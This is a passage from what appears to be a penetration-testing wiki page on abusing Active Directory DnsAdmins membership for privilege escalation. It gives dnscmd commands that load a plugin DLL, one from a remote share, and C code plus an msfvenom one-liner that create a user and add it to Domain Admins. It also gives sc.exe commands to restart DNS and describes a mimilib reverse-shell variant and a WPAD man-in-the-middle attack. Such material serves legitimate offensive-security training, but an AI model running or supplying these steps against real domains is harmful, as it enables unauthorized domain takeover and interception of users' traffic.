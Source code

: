 ```
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
```

An example of a valid DLL can be found in [https://github.com/kazkansouh/DNSAdmin-DLL](https://github.com/kazkansouh/DNSAdmin-DLL). I would change the code of the function `DnsPluginInitialize` to something like:

```c
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
		system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
		system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```

Or you could generate a dll using msfvenom:

```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" <username> /add /domain' -f dll -o adduser.dll
```

So, when the **DNSservice** start or restart, a new user will be created.

Even having a user inside DNSAdmin group you **by default cannot stop and restart the DNS service.** But you can always try doing:

```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```

[**Learn more about this privilege escalation in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)

#### Mimilib.dll

As detailed in this [**post**](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html), It's also possible to use [**mimilib.dll**](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from the creator of the `Mimikatz` tool to gain command execution by **modifying** the [**kdns.c**](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) \*\*\*\* file to execute a **reverse shell** one-liner or another command of our choosing.

### WPAD Record for MitM

Another way to **abuse DnsAdmins** group privileges is by creating a **WPAD record**. Membership in this group gives us the rights to [disable global query block security](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps), which by default blocks this attack. Server 2008 first introduced the ability to add to a global query block list on a DNS server. By default, Web Proxy Automatic Discovery Protocol (WPAD) and Intra-site Automatic Tunnel Addressing Protocol (ISATAP) are on the global query block list. These protocols are quite vulnerable to hijacking, and any domain user can create a computer object or DNS record containing those names.
